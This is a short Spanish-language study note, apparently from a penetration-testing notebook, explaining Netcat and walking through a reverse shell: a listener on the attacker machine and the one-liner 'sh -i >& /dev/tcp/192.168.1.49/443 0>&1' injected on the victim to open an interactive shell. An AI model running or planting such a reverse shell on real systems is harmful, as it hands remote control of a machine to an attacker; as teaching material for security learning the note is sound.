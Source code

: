 ¿Que es Netcat?: Netcat es una herramienta de red que permite abrir puertos TCP/UDP en un HOST, asociar una shell a un puerto específico y forzar conexiones UDP/TCP. Es útil tanto para ataques como para auditores de seguridad de re  
  

> [!important] https://www.revshells.com - Este es un generador de shell inversa en línea que permite a cualquier persona configurar sus direcciones IP, puertos y shell de elección para sus payloads (cargas útiles) .

  

![[./imagenes/image.png]]

  

  
Ponemos el siguiente comando en nuestra maquina atacante **nc -nlvp 443** . Con esto ponemos el Netcat en escucha en el puerto 443.

  
  
`**nc -nlvp 443**`  
  

> [!important] `**nc**`: Invoca **la herramienta** Netcat.<br><br><br>`**-n**`: **Desactiva la resolución de nombres DNS**. Esto significa que solo se usarán direcciones IP sin intentar resolver nombres de dominio.<br><br><br>`-``**l**`: **Activa el modo de escucha** (listen), lo que **convierte Netcat en un servidor que espera conexiones entrantes**.<br><br><br>`-``**v**`: Habilita el modo "verboso" (verbose), proporcionando **información** detallada **sobre las conexiones**.<br><br><br>`-``**p 443**`: Especifica el **puerto** en el **que** Netcat **estará escuchando**, en este caso, el puerto 443 (comúnmente utilizado por HTTPS).<br><br>

  

![[./imagenes/./imagenes/9d3054ff-5a86-428a-bcc8-294f30a5ddb7.png]]

  

Si conseguimos acceso a muestra maquina victima debemos inyectar el comando que habíamos conseguido con el reverse shell generator.  
  
  
`sh -i >& /dev/tcp/192.168.1.49/443 0>&1`

  

![[./imagenes/image 1.png]]

  

Nuestra maquina atacante Kali reacciona a la señal de la maquina victima, originado que tengamos abierta una terminal interactiva sobre la maquina victima.

  

![[./imagenes/image 2.png]]

![[./imagenes/image 3.png]]